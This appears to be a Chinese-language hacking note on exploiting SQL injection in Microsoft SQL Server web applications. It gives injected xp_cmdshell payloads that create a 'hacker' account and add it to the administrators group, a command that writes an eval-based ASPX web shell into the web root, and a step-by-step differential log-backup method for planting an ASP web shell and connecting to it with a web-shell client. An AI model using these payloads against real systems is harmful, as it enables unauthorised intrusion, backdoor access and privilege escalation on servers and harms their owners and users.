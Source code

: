 
前提：sa权限探测是否存在1433端口。然后检测是否开启CMDSHELL<br />用XP_CMDSHELL添加用户hacker：<br />exec master..xp_cmdshell "whoami" 

asp?id=3;exec master.dbo.xp_cmdshell 'net user hacker 123456 /add'<br />XP_CMDSHELL把用户hacker加到ADMIN组：<br />asp?id=3;exec master.dbo.xp_cmdshell 'net localgroup administrators hacker /add'<br /> <br />学习的文档：[https://www.lagou.com/lgeduarticle/38721.html](https://www.lagou.com/lgeduarticle/38721.html)<br />[https://www.cnblogs.com/vigarbuaa/p/3371500.html](https://www.cnblogs.com/vigarbuaa/p/3371500.html)<br />[https://www.cnblogs.com/cnjava/archive/2012/06/13/2547524.html](https://www.cnblogs.com/cnjava/archive/2012/06/13/2547524.html)<br />[https://blog.csdn.net/weixin_34319999/article/details/92479895](https://blog.csdn.net/weixin_34319999/article/details/92479895)<br /> 
<a name="xhHv3"></a>
## 拿shell方法
前提：<br />1具备sa或者dbo权限<br />2web目录的绝对路径 （可以利用xp_cmdshell的方式寻找绝对路径，插个眼）<br /> 
<a name="Q5PqT"></a>
### (2)xp_cmdshell拿shell
 <br />1.aspx?id=1;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > c:\\WWW\\aufeng.aspx' ;<br /> 
<a name="b9sxu"></a>
### (2)差异备份拿shell
大概思路：<br /> <br />假设：http://xxxxx/show.aspx?code=1<br />中的code参数存在注入点 并且获得数据库名字为abc 爆出了物理路径为e:\xampp\htdocs\dvwa\<br /> <br />(1) 修改数据库设置为恢复模式<br />http://xxxxx/show.asp?code=1’;alter database abc set RECOVERY FULL –<br />完全恢复模式是默认的恢复模式。在完全恢复模式下，需要手工的对事务日志进行管理，优点是可以恢复到数据库失败或者指定的时间点上。<br /> <br />(2) 备份当前数据库日志到文件<br />http://xxxxx/show.aspx?code=1’;backup log abc to disk=‘e:\xampp\htdocs\dvwa’ with init –<br />备份数据库日志到服务器上，其中路径是网页的物理路径。<br /> <br />(3) 建立一张表和一个字段<br />http://xxxxx/show.aspx?code=1’;create table tt(a text) –<br /> <br />(4) 往表中插入一句话马子<br />http://xxxxx/show.asp?code=1’;insert into tt(a) values(’<%eval request(“abc”) %>’) –<br />values中的内容一般转换为马子的hex值。<br /> <br />(5) 再次备份日志<br />http://xxxxx/show.asp?code=1’;backup log ahykd_new to disk=‘e:\xampp\htdocs\dvwa\1.aspx’ –<br />再次备份日志，备份路径为网站服务器的物理路径<br /> <br />(6) 删除表<br />http://xxxxx/show.aspx?code=1’;drop table tt –<br /> <br />然后菜刀尝试连接http://xxxxx/1.aspx<br /> 
